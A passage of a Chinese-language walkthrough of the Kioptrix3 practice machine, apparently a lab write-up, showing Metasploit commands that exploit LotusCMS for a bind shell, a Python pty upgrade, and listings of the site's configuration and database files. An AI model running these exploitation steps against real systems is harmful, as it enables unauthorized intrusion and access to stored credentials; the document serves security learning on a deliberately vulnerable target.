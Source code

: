 启动MSF（这种集成化的工具还是少用，要了解漏洞利用原理)

```bash
msfconsole
search lotuscms
use 0  #或者use exploit/multi/http/lcms_php_exec 
show options  #查看攻击参数
set rhost 192.168.88.27
set rport 80
set uri /
set lhost 192.168.88.10
set lport 4444
set payload generic/shell_bind_tcp
run
```

拿下shell

![image-20240618214117872](image/image-20240618214117872.png)

为了拿到更好的交互shell，可以查看是否有pyhon

```bash
dpkg -l | grep python
python -c "import pty;pty.spawn('/bin/bash')"
```

可以查看网站的配置文件

```bash
www-data@Kioptrix3:/home/www/kioptrix3.com$ ls -alh
ls -alh
total 92K
drwxr-xr-x  8 root root 4.0K Apr 15  2011 .
drwxr-xr-x  3 root root 4.0K Apr 12  2011 ..
drwxrwxrwx  2 root root 4.0K Apr 15  2011 cache
drwxrwxrwx  8 root root 4.0K Apr 14  2011 core
drwxrwxrwx  8 root root 4.0K Apr 14  2011 data
-rw-r--r--  1 root root  23K Jun  5  2009 favicon.ico
drwxr-xr-x  7 root root 4.0K Apr 14  2011 gallery
-rw-r--r--  1 root root  26K Jan 21  2007 gnu-lgpl.txt
-rw-r--r--  1 root root  399 Feb 23  2011 index.php
drwxrwxrwx 10 root root 4.0K Apr 14  2011 modules
drwxrwxrwx  3 root root 4.0K Apr 14  2011 style
-rw-r--r--  1 root root  243 Aug  5  2010 update.php
www-data@Kioptrix3:/home/www/kioptrix3.com$ ls -alh ./gallery
drwxr-xr-x 7 root root 4.0K Apr 14  2011 .
drwxr-xr-x 8 root root 4.0K Apr 15  2011 ..
drwxr-xr-x 2 root root 4.0K Apr 12  2011 BACK
-rw-r--r-- 1 root root 3.5K Oct 10  2009 db.sql
-rw-r--r-- 1 root root  252 Apr 12  2011 g.php
drwxr-xr-x 3 root root 4.0K Apr 12  2011 gadmin
-rw-r--r-- 1 root root  214 Apr 12  2011 gallery.php
-rw-r--r-- 1 root root 1.5K Apr 14  2011 gconfig.php
-rw-r--r-- 1 root root  297 Apr 12  2011 gfooter.php
-rw-r--r-- 1 root root  38K Apr 12  2011 gfunctions.php
-rw-r--r-- 1 root root 1009 Apr 12  2011 gheader.php
-rw-r--r-- 1 root root  249 Apr 12  2011 index.php
```